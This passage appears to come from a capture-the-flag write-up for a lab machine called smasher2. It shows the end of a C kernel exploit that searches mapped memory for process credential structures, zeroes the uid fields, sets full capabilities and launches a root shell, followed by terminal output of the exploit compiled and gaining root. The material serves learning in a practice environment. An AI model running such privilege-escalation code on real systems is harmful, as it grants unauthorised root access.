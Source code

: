 ```c
			addr[credIt++] = 0;
			addr[credIt++] = 0;
			addr[credIt++] = 0;
			addr[credIt++] = 0;
			if (getuid() == 0)
			{
				puts("[+] GOT ROOT!");
				credIt += 1; //Skip 4 bytes, to get capabilities
				addr[credIt++] = 0xffffffff;
				addr[credIt++] = 0xffffffff;
				addr[credIt++] = 0xffffffff;
				addr[credIt++] = 0xffffffff;
				addr[credIt++] = 0xffffffff;
				addr[credIt++] = 0xffffffff;
				addr[credIt++] = 0xffffffff;
				addr[credIt++] = 0xffffffff;
				addr[credIt++] = 0xffffffff;
				addr[credIt++] = 0xffffffff;
				execl("/bin/sh", "-", (char *)NULL);
				puts("[-] Execl failed...");
				break;
			}
			else
			{
				credIt = 0;
				addr[credIt++] = uid;
				addr[credIt++] = uid;
				addr[credIt++] = uid;
				addr[credIt++] = uid;
				addr[credIt++] = uid;
				addr[credIt++] = uid;
				addr[credIt++] = uid;
			}
		}
		addr++;
	}
	puts("[+] Scanning loop END");
	fflush(stdout);
	
	int stop = getchar();
	return 0;
}
```

After compiling and running the code, we get root access:

```
dzonerzy@smasher2:/dev/shm$ gcc -w -o exploit exploit.c
dzonerzy@smasher2:/dev/shm$ ./exploit
[+] PID: 15475
[+] Open OK fd: 3
[+] mmap OK addr: 42424000
[+] UID: 1000
[+] Found cred structure! ptr: 0x763600c4, credNum: 1
[+] Found cred structure! ptr: 0x76360544, credNum: 2
[+] Found cred structure! ptr: 0x76360cc4, credNum: 3
[+] Found cred structure! ptr: 0x76361444, credNum: 4
[+] Found cred structure! ptr: 0x76361b04, credNum: 5
[+] Found cred structure! ptr: 0x76361bc4, credNum: 6
[+] Found cred structure! ptr: 0x76361e04, credNum: 7
[+] Found cred structure! ptr: 0x76c4af04, credNum: 8
[+] GOT ROOT!
# id
```